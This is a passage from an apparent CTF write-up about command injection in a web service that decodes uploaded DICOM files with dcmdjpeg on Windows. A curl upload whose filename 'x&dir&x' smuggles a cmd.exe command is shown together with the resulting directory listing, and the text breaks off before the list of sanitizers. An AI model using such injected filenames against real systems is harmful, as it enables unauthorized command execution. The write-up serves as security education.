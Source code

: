 ```
>>> import imageio
>>> imageio.imread('./dicom_jpeg').shape[:2]
--version: dcmdjpeg: command not found
...
imageio.plugins._dicom.CompressedDicom: The dicom reader can only read files with uncompressed image data - not '1.2.840.10008.1.2.4.70' (JPEG). You can try using dcmtk or gdcm to convert the image.
```

Then I tried to upload it, and it worked! Web service was able to show some
(width, height), which meant that `dcmdjpeg.exe` is installed on the server
and exploitable code path is working.

I recalled some `cmd.exe` commands, which I used last time back in the
Windows XP days, and came up with following:

```
$ curl -F 'file=@dicom_jpeg;filename=x&dir&x' 'http://silhouettes.balsnctf.com/'
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $

dcmdjpeg: Decode JPEG-compressed DICOM file

Host type: AMD64-Windows
Character encoding: CP1252
Code page: 437 (OEM) / 1252 (ANSI)

External libraries used:
- ZLIB, Version 1.2.11
- IJG, Version 6b  27-Mar-1998 (modified)
$dcmtk: dcmdjpeg v3.6.4 2018-11-29 $

dcmdjpeg: Decode JPEG-compressed DICOM file
error: Missing parameter dcmfile-out
 Volume in drive C has no label.
 Volume Serial Number is C604-FB4A

 Directory of C:\inetpub\wwwroot

09/25/2019  12:53 PM    <DIR>          .
09/25/2019  12:53 PM    <DIR>          ..
09/25/2019  12:57 PM               115 getsize.py
09/25/2019  02:42 PM             1,602 index.php
               2 File(s)          1,717 bytes
               2 Dir(s)  18,761,220,096 bytes free
```

Surprisingly, it worked even despite the fact I did not checked which characters
I'm allowed to use in the file name and which are prohibited.

It seemed that I was a step away from the flag, but... I'm a long time Linux
user and I have near zero experience with Windows. And I'm talking about
day-to-day usage, not about pwning =).

So, as the next step, I tried to understand which characters are allowed in the
file name. Here is the list of various "sanitizers" on my way to cmd.exe:
